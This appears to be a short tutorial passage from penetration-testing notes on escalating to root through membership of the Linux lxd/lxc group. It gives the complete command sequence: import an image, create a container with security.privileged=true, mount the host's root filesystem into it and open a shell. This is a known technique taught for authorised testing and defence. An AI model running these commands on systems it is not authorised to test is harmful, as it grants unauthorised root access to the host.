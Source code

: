 
#### Linux Daemon

Linux Daemon ([LXD](https://github.com/lxc/lxd)) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container. Before we can use this service to escalate our privileges, we must be in either the `lxc` or `lxd` group. We can find this out with the following command:

```
id
```

```shell-session
cd ContainerImages
ls
```

```shell-session
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc image list
```

After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.
```shell-session
lxc init ubuntutemp privesc -c security.privileged=true
```
```shell-session
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the `resource` of the host system as `root`.
```shell-session
lxc start privesc
```

```
lxc exec privesc /bin/bash
```
or
```
lxc exec privesc /bin/sh
```

You are now root